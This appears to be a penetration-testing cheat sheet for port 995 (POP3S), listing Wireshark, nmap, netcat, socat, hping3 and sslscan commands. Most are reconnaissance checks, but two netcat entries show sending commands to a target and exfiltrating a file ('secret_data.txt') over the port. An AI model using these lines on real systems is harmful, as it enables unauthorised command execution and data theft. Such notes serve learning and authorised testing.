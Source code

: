 ### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 995"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 995
    ```

### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 995
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 995 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 995
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 995 < secret_data.txt
    ```

### [[SoCat Cheat Sheet]]
- **SoCat TCP Connect:** Simple tests to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:995
	```

### [[HPing3 Cheat Sheet]]
- **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.
    ```bash
    hping3 <target_ip> -p 995
    ```

### [[SSLScan]]
- **Scan Target:** Detailed analysis of an HTTPS service’s SSL/TLS configuration.
    ```bash
    sslscan <target_ip>:995
    ```
